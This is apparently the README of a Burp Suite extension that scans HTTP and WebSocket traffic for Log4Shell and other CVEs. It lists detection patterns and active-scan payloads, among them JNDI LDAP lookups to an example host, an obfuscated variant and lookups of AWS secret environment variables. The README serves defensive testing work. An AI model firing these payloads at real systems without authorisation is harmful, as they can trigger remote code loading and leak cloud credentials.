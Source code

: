 # Enhanced CVE and Log4j Checker
By @CadGoose

## Overview
The **Enhanced CVE and Log4j Checker** is a Burp Suite extension designed to identify specific CVEs and Log4j-related vulnerabilities in HTTP, HTTPS, and WebSocket responses. This extension performs both passive and active scans, provides detailed issue reports, and allows users to export vulnerability data for further analysis.

## Features
- **Passive Scan**: Automatically scans HTTP, HTTPS, and WebSocket responses for specific CVEs and Log4j patterns.
- **Active Scan**: Injects payloads into HTTP requests and analyzes responses to detect exploit attempts.
- **Custom Alerts**: Provides detailed issue reports when potential vulnerabilities are detected.
- **Logging**: Maintains a log of detected vulnerabilities with timestamps.
- **Exportable Reports**: Users can export detected issues to a JSON file for easy sharing and integration with other tools.
- **User Interface**: Includes a custom UI panel in Burp Suite for managing the extension and exporting reports.

## Prerequisites
- **Burp Suite**: Professional or Community Edition
- **Jython**: A Python interpreter written in Java, which can be downloaded from [Jython.org](http://www.jython.org/downloads.html).

## Installation
1. **Download and Install Jython**:
   - Download Jython from [Jython.org](http://www.jython.org/downloads.html).
   - Follow the instructions to install Jython.

2. **Add the Extension to Burp Suite**:
   - Open Burp Suite.
   - Go to the Extender tab.
   - Click on the Extensions tab within the Extender tab.
   - Click on Add, select the extension type as "Python", and choose the `burp_extension.py` file.

## Usage
1. **Run Burp Suite**:
   - The extension will start scanning for the specified CVEs and Log4j patterns when passive scanning HTTP, HTTPS, and WebSocket responses.
   - For active scanning, the extension will inject payloads and analyze responses to detect exploit attempts.

2. **View and Export Scan Results**:
   - Detected issues will be listed in the Scanner tab under Issues.
   - To export the report, go to the "CVE Checker" tab and click the "Export Report" button to save the report as a JSON file.

## Detection Details
### Passive Scanning
- **Log4Shell Patterns**:
  - `${jndi:ldap://`
  - `${jndi:rmi://`
  - `${jndi:ldaps://`
  - `${jndi:dns://`
  - `${jndi:iiop://`
  - `${jndi:corba://`
  - `${jndi:nds://`
  - `${jndi:nis://`
  - `${jndi:rfc://`

- **Other Log4j-Related Patterns**:
  - `${sys:os.name}`
  - `${env:}`
  - `${sys:}`
  - `${env:AWS_SECRET_ACCESS_KEY}`
  - `${java:version}`
  - `${java:os}`
  - `${env:AWS_SESSION_TOKEN}`
  - `${env:AWS_ACCESS_KEY_ID}`
  - `${main:ARGS}`

### Active Scanning
- **Payloads Injected**:
  - `${jndi:ldap://example.com/a}`
  - `${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://example.com/a}`
  - `${sys:os.name}`
  - `${env:AWS_SECRET_ACCESS_KEY}`
  - `${java:version}`

## Disclaimer
This tool is intended for educational purposes and should be used responsibly. Ensure you have appropriate permissions before scanning any network or application.

## Author
Created by @CadGoose

This project was developed to enhance the capabilities of Burp Suite in identifying specific CVEs and Log4j vulnerabilities and to contribute to the cybersecurity community.

Feel free to contribute or reach out for any suggestions!
